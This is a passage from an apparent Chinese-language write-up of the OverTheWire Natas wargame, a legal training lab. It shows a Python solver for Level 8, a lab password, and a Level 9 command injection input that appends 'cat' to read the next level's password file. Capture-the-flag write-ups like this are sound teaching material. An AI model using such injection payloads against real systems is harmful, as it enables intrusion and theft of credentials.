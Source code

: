			# with open("Natas/response.html", "w") as f:
			#     print(content, file=f)
			
			cipher = "3d3d516343746d4d6d6c315669563362"
			cheaperText = L8_decode.decodeSecret(cipher)
			
			# TODO: 使用 POST method 取得 Flag
			
			url = f"http://{user}.natas.labs.overthewire.org/"

			data = {'secret': cheaperText, 'submit': 'submit'}

			response = req.post(url, auth=(user, passwd), data=data)
			content = response.text

			# with open("Natas/response.html", "w") as f:
			#     print(content, file=f)

			answer = re.findall(
                "Access granted. The password for natas9 is (.*)\n", content)[0]
			print(answer)
            ```

# <span class="bigTitle">Level9</span>
- username: natas9
- password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
- url: http://natas9.natas.labs.overthewire.org/
- Solution
    - 當你看到這題的source code後就會發現這題是command injection，那這題什麼東西都沒擋，就很簡單，直接讓對方 ==cat== 出 ==/etc/natas_webpass/natas10== 的內容就可以了
        - Broswer(FireFox) :
            - source code :
                ![](https://i.imgur.com/0pcH8Ii.png)
            - 如何讓對方輸出Flag
                ![](https://i.imgur.com/oxb1Inc.png)
                - 我輸入的東東 ：
                    ```bash=
                    # # => 把後面註解掉，所以就只會出現Flag(可加可不加)
                    # . => regex的搜尋所有的字，除了"\n"
                    .; cat /etc/natas_webpass/natas10 #
                    ```
                ![](https://i.imgur.com/Sa4QcBz.png)
        - Python :
            ```python=
            #! /usr/bin/env python3
			# -*- coding: utf-8 -*-

